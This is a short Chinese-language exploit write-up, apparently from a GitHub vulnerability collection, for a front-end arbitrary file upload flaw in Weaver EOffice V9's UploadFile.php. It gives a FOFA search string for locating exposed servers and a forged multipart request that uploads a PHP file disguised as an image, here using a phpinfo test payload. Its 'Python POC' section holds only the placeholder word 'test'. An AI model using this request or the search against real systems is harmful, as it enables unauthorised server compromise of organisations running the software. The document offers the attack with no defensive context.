

# 泛微EOffice V9 UploadFile.php 前台任意文件上传


## 漏洞描述

```
泛微EOffice V9 UploadFile.php文件只校验了是否是multipart请求
通用==> OA V9 /page/exportImport/uploadOperation.jsp
```

## FOFA

```
app="泛微-EOffice"
```

## 漏洞利用

登录页面


更改请求包伪造multipartRequest,发包。

```
Content-Type: multipart/form-data; boundary=----随机生成

--xxxxxxxxxxx
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg
 
<?php phpinfo();?> 
--xxxxxxxxxx--
```



## Python POC

```
test
```

